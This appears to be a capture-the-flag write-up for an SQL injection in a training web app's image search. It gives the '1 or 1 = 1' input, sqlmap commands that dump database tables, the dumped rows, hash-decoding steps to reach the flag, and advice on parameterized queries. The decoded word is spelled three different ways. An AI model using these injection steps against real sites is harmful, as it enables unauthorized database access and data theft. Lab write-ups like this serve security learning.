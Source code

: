 VULNERABILTY__
   => Search image tag, is vulnerable to sql injection.


EXPLOIT_?
    step1 ) => see if the sight reposnds to an SQL Injection
    nu typing  [ 1 or 1 = 1], in the search bar and then press Enter.

    step 2) => if the page returns information about an image,
        open terminal, copy the URL and paste in sqlmap
        like so,

        sqlmap -u "http://192.168.8.6/?page=searchimg&id=1+or+1+%3D+1&Submit=Submit#" --tables

        => this should return the schema's of the database.
        => then 

        sqlmap -u "http://192.168.8.6/?page=searchimg&id=1+or+1+%3D+1&Submit=Submit#" --dump -T list_images

        ^ should retune the table:
        Database: Member_images

Table: list_images
[6 entries]
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+

    => copy and paste " 1928e8083cf461a51303633093573c46" on  "https://www.md5online.org/md5-decrypt.html" to get
    a decoded string i.e "albatroz", then then type "abatroz" in "https://passwordsgenerator.net/sha256-hash-generator/"
    to get the Flag "5F894D1824AFA90D623FA370A9DA97603427A2902F97C280D93D6561F7FB373B"

    thus => 1928e8083cf461a51303633093573c46 => albaroz => 5F894D1824AFA90D623FA370A9DA97603427A2902F97C280D93D6561F7FB373B

SOLUTION__

    => Use SQL Parameters (parametized Queries)
     for Protection e.g txtNam = getRequestString("CustomerName");
                        txtAdd = getRequestString("Address");
                        txtCit = getRequestString("City");
                        txtSQL = "INSERT INTO Customers (CustomerName,Address,City) Values(@0,@1,@2)";
                        db.Execute(txtSQL,txtNam,txtAdd,txtCit);

    => use prepared statements  and  stored procedure                              
  